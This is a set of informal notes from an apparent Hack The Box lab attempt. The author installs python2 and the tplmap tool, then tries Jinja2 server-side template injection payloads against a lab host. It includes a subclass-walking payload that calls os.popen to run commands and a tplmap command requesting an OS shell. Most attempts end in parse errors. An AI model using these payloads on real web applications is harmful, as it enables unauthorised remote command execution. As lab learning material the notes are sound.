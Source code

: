 But, python2 is not pre-installed on Parrot OS anymore, so idk if I will be using this, it errors out when installing requirements.txt

Installed python2.7, I guess I could need this down the line for oscp etc, it sucks not to have it
`apt install -y python2.7`

Installed pip2 for python2.7:
`wget -P ~/.local/lib https://bootstrap.pypa.io/pip/2.7/get-pip.py`
`python2.7 ~/.local/lib/get-pip.py --user `

Installed again:  python2.7 -m pip install -r requirements.txt
Worked, created quick bash script in /usr/bin to run it quickly:
`#!/bin/bash
python2.7 /opt/tplmap/tplmap.py $@`

Ran it against our site:

`tplmap.py -u 'http://images.late.htb/?results' --os-shell`

Realized, I don't have a url to scan with this. BUT. It is there for the future, might go into web challs after looking for flask apps to play with now :)

Tried this2from the secure-cookie ssti page:

![secure-cookie ssti](flask1.png "screenshot from secure-cookie ssti")

Gave results:
Error occured while processing the image: 'str object' has no attribute 'class'

Ugh, okay, maybe cause its split in two lines...  Lets try it on my own here:

`{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}`

Yeah, same error as above.  “foo” I guess has no attribute class.. It's not getting parsed.  Maybe foo should be an actual attribute instead of a string?? Idk, this python witchery is above me a lot still.

Lets try some basics I guess.. flask9.png has 3 commands even..

![basic cmds](flask2.png "basic cmds")

Now its getting a bit funky, hmm. Error:

`Error occured while processing the image: expected token 'end of print statement', got 'os'
tried just the middle one in flask10.png; yeah it is causing the error:
Error occured while processing the image: expected token 'end of print statement', got 'os'
Tried just the end one {{ import os }} - same:
Error occured while processing the image: expected token 'end of print statement', got 'os'`
